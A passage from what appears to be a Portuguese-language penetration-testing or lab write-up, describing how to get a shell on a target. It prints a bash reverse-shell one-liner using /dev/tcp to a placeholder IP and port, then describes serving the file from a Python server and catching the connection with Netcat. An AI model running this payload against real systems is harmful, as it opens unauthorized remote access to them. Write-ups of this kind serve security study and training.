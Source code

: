 ## Com isso, podemos criar um arquivo malicioso para estabelecer uma conexão reversa com o servidor alvo.
## Criamos um arquivo .sh contendo uma payload maliciosa.

```bash
/bin/bash -c 'sh -i >& /dev/tcp/ip/port 0>&1'
```
![Descrição da imagem](./images/25.png)

## Mantivemos um servidor Python ativo em nossa máquina para receber requisições do servidor alvo. Com essa configuração, conseguimos enviar nosso arquivo malicioso para o alvo.
## Para estabelecer a conexão reversa, configuramos o Netcat para escutar na porta especificada em nossa payload de reverse shell.

![Descrição da imagem](./images/26.png)